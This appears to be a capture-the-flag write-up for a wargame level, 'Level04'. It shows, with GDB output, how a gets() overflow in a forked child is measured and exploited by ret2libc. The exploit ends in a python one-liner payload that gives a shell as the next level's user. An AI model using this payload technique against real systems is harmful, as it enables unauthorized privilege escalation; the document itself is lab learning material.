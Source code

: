 # Level04

First step - testing the program

    $ ./level04 
    Give me some shellcode, k
    coucou
    child is exiting...

Start in GDB

The program do a fork and gets() in the child. In the parent, there is a check with ptrace and check if the child call the function exec?

    /*
    0x080487f6 <+302>:	mov    DWORD PTR [esp],0x8048931
    0x080487fd <+309>:	call   0x8048500 <puts@plt>
    */
    puts("no exec() for you");

 We can overflow the gets. Search the offset with my scripts

    (gdb)$ r
    Starting program: /home/users/level04/level04 
    Give me some shellcode, k
    AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

The program stay in an infinite loop when segfault. We need to say to GDB to follow the child process

    (gdb) set follow-fork-mode child

    (gdb) r
    Starting program: /home/users/level04/level04 
    [New process 1739]
    Give me some shellcode, k
    AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

    Program received signal SIGSEGV, Segmentation fault.
    [Switching to process 1739]
    0x6e6e6e6e in ?? ()
    
    (gdb) i r
    eax            0x0	0
    ecx            0xf7fd08c4	-134412092
    edx            0xffffd590	-10864
    ebx            0x6b6b6b6b	1802201963
    esp            0xffffd630	0xffffd630
    ebp            0x6d6d6d6d	0x6d6d6d6d
    esi            0x0	0
    edi            0x6c6c6c6c	1819044972
    eip            0x6e6e6e6e	0x6e6e6e6e
    eflags         0x10286	[ PF SF IF RF ]
    cs             0x23	35
    ss             0x2b	43
    ds             0x2b	43
    es             0x2b	43
    fs             0x0	0
    gs             0x63	99

    ./get_offset.py 6e6e6e6e
    nnnn => offset = 156

We have EIP at the offset 156

Now try a ret2libc. Need the addresses of `system()`, `exit()` and a `"/bin/sh"` string

    (gdb) info function system
    ....
    0xf7e6aed0  system
    ....

    (gdb) info function exit
    ....
    0xf7e5eb70  exit
    ....

The address of `system` is `0xf7e6aed0`. `exit` is `0xf7e5eb70`

Now the `"/bin/sh"` string. Searching in the libc

    (gdb) info proc map
    process 1742
    Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
        0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
        0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
        0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0 
        0xf7fda000 0xf7fdb000     0x1000        0x0 
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]

    (gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
    0xf7f897ec
    1 pattern found.

    (gdb) x/s 0xf7f897ec
    0xf7f897ec:	 "/bin/sh"

The address is `0xf7f897ec`

The address of `system` is `0xf7e6aed0`. `exit` is `0xf7e5eb70`

The payload will be :

    ("B" * 156) + system + exit + "/bin/sh"

Try :

    $ python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"' > /tmp/payload
    
    $ cat /tmp/payload - | ./level04 
    Give me some shellcode, k
    whoami
    level05